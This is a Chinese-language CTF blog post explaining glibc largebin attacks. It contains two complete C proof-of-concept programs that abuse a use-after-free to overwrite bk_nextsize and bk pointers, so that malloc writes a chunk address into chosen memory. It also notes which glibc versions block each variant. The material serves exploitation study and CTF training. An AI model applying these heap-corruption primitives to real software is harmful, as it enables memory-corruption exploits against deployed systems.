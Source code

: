 ```yaml
---
title: largebin attack
date: 2025-01-21T17:33:23+08:00
type: posts
draft: false
summary: 本文总结一下 largebin 相关的攻击利用方式。
categories:
  - CTF-PWN
tags:
  - ctf
  - linux
  - glibc
  - largebin
  - heap
---
```


本文内容在 [unsortedbin attack](../unsortedbin_attack/) 中总结过，单独拉出来整理一下。

当 chunk 从 unsortedbin 放到 largebin 中时，存在两种利用方式使得修改任意指针内容为 chunk 的地址。

利用时需要布局两个 chunk，一个 chunk 已经在 largebin 中，1个 chunk 还在 unsortedbin 中还未插入 largebin，我将这两个 chunk 分别称做 `p2` 和 `p3`。为了保证 `p3` 插入的 largebin 和 `p2` 是同一个，`p2` 和 `p3` 的大小要在一个 largebin 范围内变换。根据两个 chunk 的大小有不同的利用效果：

- `p2` 比 `p3` 小，可修改一个指针内容为 `p3` 地址
- `p2` 比 `p3` 大，可同时修改两个指针内容为 `p3` 的地址
- `p2` 和 `p3` 一样大，无法利用

利用前提还需要有一个 UAF 洞。使用下面示例分别构造这两种利用场景。

**第 1 种利用：`p2` 比 `p3` 小**

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("stack_var1 = %d\n", stack_var1);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x460);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size smaller than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is smaller than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x440);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the largest chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    // asm("int3");
    exit(0);
}
```

使用 glibc 版本为 2.27，运行结果如下：

![largebin_uaf_arb_addr_write_exp_1](largebin_uaf_arb_addr_write_exp_1.png)

这个示例中布局了 3 个 chunk：

- `p1` 是给中间用于避免 chunk 合并的 `malloc` 调用时分隔用的
- `p2` 后面被作为 largebin 中最小的 chunk，UAF 的原因使之可控，即 `fwd->fd` 可控
- `p3` 后面被放到 unsortedbin，在下次 `malloc` 调用时将被合并到和 `p2` 相同的 largebin，且满足 unsorted chunk 大小比 largebin 中最小的 chunk 小

当使用 UAF 修改 `p2->bk_nextsize` 为 `&stack_var1 - 0x20` 后，调用 `malloc` 触发 unsortedbin 分类将 unsorted `p3` 地址写入 `fwd->fd->bk_nextsize + 0x20`，`stack_var1` 的值最终被改为 `p3` 的地址。

试了下新版本 (2.39-0ubuntu8.3) 也可以用。

**第 2 种利用：`p2` 比 `p3` 大**

对之前的代码稍做修改后，便成了第 2 种：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main()
{
    unsigned long stack_var1 = 0;
    unsigned long stack_var2 = 0;
    printf("&stack_var1 = %p\n", &stack_var1);
    printf("&stack_var2 = %p\n", &stack_var2);
    printf("stack_var1 = %d\n", stack_var1);
    printf("stack_var2 = %d\n", stack_var2);

    printf("Pre-call printf to avoid any subsequent impact on the layout of the chunk.\n\n");

    // Allocate a large chunk p1, we connot use small chunk due to the influence of tcache.
    char *p1 = (char *)malloc(0x420);
    printf("p1 chunk address:\t\t%p\n", p1 - 0x10);
    // Avoid to consolidating the p1 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a large chunk p2 to avoid tcache interference.
    char *p2 = (char *)malloc(0x440);
    printf("p2 chunk address:\t\t%p\n", p2 - 0x10);
    // Avoid to consolidating the p2 chunk with the other chunk during the free().
    malloc(0x20);
    // Allocate a chunk p3 with a size larger than p2 chunk.
    // The objective is to generate an unsorted chunk whose size is larger than the other chunks present in the largebin.
    char *p3 = (char *)malloc(0x460);
    printf("p3 chunk address:\t\t%p\n\n", p3 - 0x10);
    // Avoid to consolidating the p3 chunk with the other chunk during the free().
    malloc(0x20);

    // Free p1 and p2 chunk to unsortedbin
    // asm("int3");
    printf("Free p1 and p2 chunk to unsortedbin.\n");
    free(p1);
    free(p2);

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:
    //      1. Use p1 to avoid splitting the p2 chunk. The remaining part after the 
    //          split will be placed back into the unsorted bin.
    //      2. to move p2 chunk to largebin
    printf("Allocate a chunk with a size smaller than freed p1 chunk, there are two goals:\n\t1. Use p1 to avoid splitting the p2 chunk. The remaining part after the \n\t\tsplit will be placed back into the unsorted bin.\n\t2. to move p2 chunk to largebin\n");
    char * partOfP1 = (char *)malloc(0x20);
    printf("\tpartOfP1:\t\t\t%p\n", partOfP1 - 0x10);
    printf("\tpartOfP1 == p1:\t\t\t%s\n", partOfP1 == p1 ? "true" : "false");

    printf("\tp2 chunk link:\t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));

    // asm("int3");

    // Free p3 chunk to unsortedbin
    printf("Free p3 chunk to unsortedbin.\n");
    free(p3);
    printf("\tp3 chunk link: \t\t\t[%p <==> %p(p3) <==> %p]\n", *((char **)(p3 + 0x8)), p3 - 0x10, *((char **)(p3)));
    printf("\tp3 chunk nextsize link:\t\t[%p <==> %p(p3) <==> %p]\n\n", *((char **)(p3 + 0x18)), p3 - 0x10, *((char **)(p3 + 0x10)));

    // asm("int3");

    // Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).
    printf("Change the bk_nextsize of the large chunk p2 to (&stack_var1 - 0x20).\n");
    *(unsigned long *)(p2 + 0x18) = (unsigned long)&stack_var1 - 0x20;
    printf("\tp2 chunk nextsize link:\t\t[%p <==> %p(p2) <==> %p]\n\n", *((char **)(p2 + 0x18)), p2 - 0x10, *((char **)(p2 + 0x10)));
    printf("Change the bk of the large chunk p2 to (&stack_var1 - 0x10).\n");
    *(unsigned long *)(p2 + 0x8) = (unsigned long)&stack_var2 - 0x10;
    printf("\tp2 chunk link: \t\t\t[%p <==> %p(p2) <==> %p]\n", *((char **)(p2 + 0x8)), p2 - 0x10, *((char **)(p2)));

    // asm("int3");

    printf("Call malloc to move p3 to large bin, make *(p2->bk_nextsize + 0x20) == stack_var1 == p3 and *(p2->bk + 0x10) == stack_var2 == p3\n");
    malloc(0x20);
    printf("\tstack_var1 = %p\n", (char *)stack_var1);
    printf("\tstack_var2 = %p\n", (char *)stack_var2);
    // asm("int3");

    exit(0);
}
```

使用 glibc 2.27 版本运行后同时修改 `stack_var1` 和 `stack_var2` 为 `p3` 地址：

![largebin_uaf_arb_addr_write_exp_2](largebin_uaf_arb_addr_write_exp_2.png)

如果改用新版本 (2.39)，这种方式会失败：

![largebin_uaf_arb_addr_write_exp_2_error](largebin_uaf_arb_addr_write_exp_2_error.png)

因为在 2.30 版本 [5b06f53](https://github.com/bminor/glibc/commit/5b06f538c5aee0389ed034f60d90a8884d6d54de) commit 中添加了个 `bk_nextsize` 和 `bk` 的校验：

![exp2_fix_commit](exp2_fix_commit.png)

所以这种方式在 2.30 之后失效，只能用第 1 种方式。